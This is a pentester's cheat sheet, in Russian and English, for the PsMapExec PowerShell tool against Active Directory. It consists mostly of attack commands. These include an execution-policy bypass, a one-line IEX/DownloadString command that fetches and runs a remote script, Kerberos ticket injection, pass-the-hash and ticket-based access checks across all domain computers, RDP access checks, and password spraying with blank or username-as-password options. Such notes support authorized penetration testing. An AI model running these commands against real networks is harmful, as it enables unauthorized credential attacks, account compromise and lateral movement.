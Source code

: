 Утилита широкого назначения для Windows из под PowerShell

https://github.com/The-Viper-One/PsMapExec
[Сайт утилиты (гайды)](https://viperone.gitbook.io/pentest-everything/psmapexec)

```cmd
powershell.exe -exec bypass
```

**Установка в 1 команду**
```PowerShell
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

**Может много всего, полный список на гитхабе, кратко:**
* [[AD Password Spraying]]
* Checking access with specified credentials / hashes / tickets
* Check [[RDP]] access

## Inject ticket

Если тулза запускается из под системы, которая не в домене, то надо инжектнуть билет в память
```PowerShell
PsMapExec -Method Inject -Username [User] -Password [Password]
```
## Useful Tips

```PowerShell
-SuccessOnly # Выводить только успешные результаты, например для спрея
-Domain # Явно указывает домен
```

## Check valid access

When -Command and -Module are omitted, PsMapExec will simply check the provided or current user credentials against the specified target systems for administrative access over the specified method.

```PowerShell
# Current user
PsMapExec -Targets All -Method [Method]

# With Password
PsMapExec -Targets All -Method [Method] -Username [Username] -Password [Password]

# With Hash
PsMapExec -Targets All -Method [Method] -Username [Username] -Hash [RC4/AES256/NTLM]

# With Ticket
PsMapExec -Targets All -Method [Method] -Ticket [doI.. OR Path to ticket file]

# Local Authentication (WMI only)
PsMapExec -Targets All -Method WMI -LocalAuth
```

## Check RDP

Проверяет [[RDP]] доступ к компам по заданным credentials

```PowerShell
PsMapExec -Targets Workstations -Method RDP -Username USER -Password 'Pa$$w0rd' -Domain DOMAIN
```
## Target 

By default only enabled Active Directory computer accounts are populated into the target list.
```PowerShell
# All workstations, servers and domain controllers within the domain
PsMapExec -Targets All

# All workstations, servers and domain controllers on the specified domain
PsMapExec -Targets All -Domain [Domain]

# Only servers from the domain (exluding DCs)
PsMapExec -Targets Servers

# Only Domain Controllers from the domain
PsMapExec -Targets DCs

# Only workstations from the domain
PsMapExec -Targets Workstations

# Set the target values to a defined computer name
PsMapExec -Targets DC01.Security.local

# Read targets from file
PsMapExec -Targets "C:\Targets.txt"

# Wildcard filtering
PsMapExec -Targets SRV*

# Single IP Address
PsMapExec -Targets 192.168.56.11

# CIDR Range
PsMapExec -Targets 192.168.56.0/24
```

## Spraying

```PowerShell
# Spray passwords across all accounts in the domain
PsMapExec -Method Spray 

# + one of this

-SprayPassword [Password]
-SprayHash [Hash]
-EmptyPassword # Sprays blank passwords   
-AccountAsPassword # SAM acc names as pwd
-SuccessOnly # only [+]
```

